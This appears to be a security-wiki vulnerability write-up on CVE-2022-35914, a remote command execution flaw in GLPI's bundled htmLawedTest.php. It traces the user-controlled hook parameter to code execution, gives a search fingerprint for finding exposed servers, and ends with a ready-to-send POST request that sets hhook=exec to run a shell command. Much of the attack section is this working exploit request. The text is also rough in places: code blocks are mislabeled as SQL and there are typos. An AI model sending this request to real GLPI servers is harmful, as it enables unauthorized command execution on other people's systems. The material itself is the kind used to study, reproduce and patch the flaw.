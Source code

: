 # GLPI htmlLawedTest.php Remote Command Execution Vulnerability CVE-2022-35914

## Vulnerability Description

GLPI is an open source IT and asset management software for individual developers. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">GLPI</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="GLPI"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664764583921-930e166a-74b4-48a3-af34-9bcb1e20fa0f.png)

The file that occurs with the problem is **htmLawedTest.php, which is from the third-party library PHP Labware

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664889433165-f745a7dc-7774-4ff0-abe6-c96d4f2f796c.png)



```sql
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

Receive parameters in htmlLawedTest.php and pass in method htmlLawed

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664893382208-bf44fba7-3b95-4197-a2bb-d139ec21f1d9.png)

Follow up file in htmlLawed.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664946511507-81cddbd6-de1a-4df9-b7cb-da460b4c1516.png)

```sql
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

Here you can see that the parameters are user-controlled parameters. When the control parameters hhook is exec and text is executed, the command execution vulnerability is caused.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664946759678-b3032a67-4717-44f7-a00d-101e690f8b53.png)

Verify POC

```sql
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664764633952-b6bb3e54-7b6a-49c2-94b6-39fd5cb0d032.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664764647931-b53cbf79-aa45-48d4-9581-f88a58ff1b61.png)

After accessing the page, you can get sid and token before sending the request packet

```sql
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664764696143-4f92e328-735b-4587-987d-1552817796f1.png)